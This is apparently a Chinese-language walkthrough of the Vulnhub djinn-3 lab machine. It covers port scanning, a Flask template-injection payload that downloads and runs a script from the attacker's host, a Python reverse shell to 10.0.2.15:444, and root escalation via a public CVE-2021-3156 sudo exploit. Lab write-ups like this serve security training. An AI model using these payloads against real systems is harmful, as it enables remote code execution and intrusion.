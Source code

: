 ```yaml
---
layer: article
title: Vulnhub	492	djinn-3
tags: pentest vulnhub Walkthrough
---
```

考点：flask

靶机链接：<https://www.vulnhub.com/entry/djinn-3,492/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| djinn-3    | 10.0.2.10 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.10
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.10) [65535 ports]
Discovered open port 22/tcp on 10.0.2.10
Discovered open port 80/tcp on 10.0.2.10
Discovered open port 5000/tcp on 10.0.2.10
Discovered open port 31337/tcp on 10.0.2.10
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:44:23:ac:b2:d9:82:e7:90:58:15:5e:40:23:ed:65 (RSA)
|   256 ae:04:85:6e:cb:10:4f:55:4a:ad:96:9e:f2:ce:18:4f (ECDSA)
|_  256 f7:08:56:19:97:b5:03:10:18:66:7e:7d:2e:0a:47:42 (ED25519)
80/tcp    open  http    lighttpd 1.4.45
|_http-title: Custom-ers
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     username> password> authentication failed
|   Help: 
|     username> password>
|   RPCCheck: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte

```

### WEB测试

查看5000端口，感觉应该是存在flask SSTI漏洞

31337端口需要用户名密码，guest/guest 连上，发现可以发内容，并显示在5000端口

### 漏洞发现

![1](https://static.iihack.com/vulnhub/492/1.PNG)

![2](https://static.iihack.com/vulnhub/492/2.PNG)

还可以执行命令了

本地http服务目录存放反弹shell脚本

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.2.15",444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

```python
# 下载
> open                                                      
Title: 8
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.0.2.15/reverse/r.py -O r.py').read()}}
# 运行
> open                                                      
Title: 9
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('python3.6 r.py 444').read()}}
```



## 获得权限

### 靶机测试

本地监听，点击5000端口的链接，获得反弹shell

![3](https://static.iihack.com/vulnhub/492/3.PNG)

## 提权

使用CVE-2021-3156提权

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

![4](https://static.iihack.com/vulnhub/492/4.PNG)
